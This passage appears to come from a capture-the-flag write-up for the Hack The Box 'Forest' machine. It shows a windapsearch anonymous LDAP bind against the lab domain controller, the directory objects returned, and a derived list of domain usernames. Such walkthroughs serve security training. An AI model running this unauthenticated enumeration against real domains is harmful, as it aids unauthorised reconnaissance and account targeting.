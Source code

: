 ```bash
dumbland () hgfs/hackthebox/forest :: ~/pentest/windapsearch/windapsearch.py -d htb --dc-ip 10.10.10.161 --custom objectclass=\* 
[+] No username provided. Will try anonymous bind.
[+] Using Domain Controller at: 10.10.10.161
[+] Getting defaultNamingContext from Root DSE
[+]     Found: DC=htb,DC=local
[+] Attempting bind
[+]     ...success! Binded as:
[+]      None
[+] Performing custom lookup with filter: "objectclass=*"
[+]     Found 312 results:

DC=htb,DC=local

CN=Users,DC=htb,DC=local

CN=Allowed RODC Password Replication Group,CN=Users,DC=htb,DC=local

CN=Denied RODC Password Replication Group,CN=Users,DC=htb,DC=local

CN=Read-only Domain Controllers,CN=Users,DC=htb,DC=local

CN=Enterprise Read-only Domain Controllers,CN=Users,DC=htb,DC=local

CN=Cloneable Domain Controllers,CN=Users,DC=htb,DC=local

CN=Protected Users,CN=Users,DC=htb,DC=local

CN=Key Admins,CN=Users,DC=htb,DC=local

CN=Enterprise Key Admins,CN=Users,DC=htb,DC=local

CN=DnsAdmins,CN=Users,DC=htb,DC=local

CN=DnsUpdateProxy,CN=Users,DC=htb,DC=local

CN=Exchange Online-ApplicationAccount,CN=Users,DC=htb,DC=local

CN=SystemMailbox{1f05a927-89c0-4725-adca-4527114196a1},CN=Users,DC=htb,DC=local
```

Redirect this output to a file and after some scripts commands we can achieve a  list of valid ldap  users.  

```bash	
dumbland () hgfs/hackthebox/forest :: cat user-list.txt | head -n 20 
$331000-VK4ADACQNUCA
$D31000-NSEL5BRJ63V7
Administrator
andy
DefaultAccount
Domain Name: HTB
EXCH01$
Exchange Servers
Exchange Trusted Subsystem
FOREST$
Guest
HealthMailbox0659cc1
HealthMailbox670628e
HealthMailbox6ded678
HealthMailbox7108a4e
HealthMailbox83d6781
HealthMailbox968e74d
HealthMailboxb01ac64
```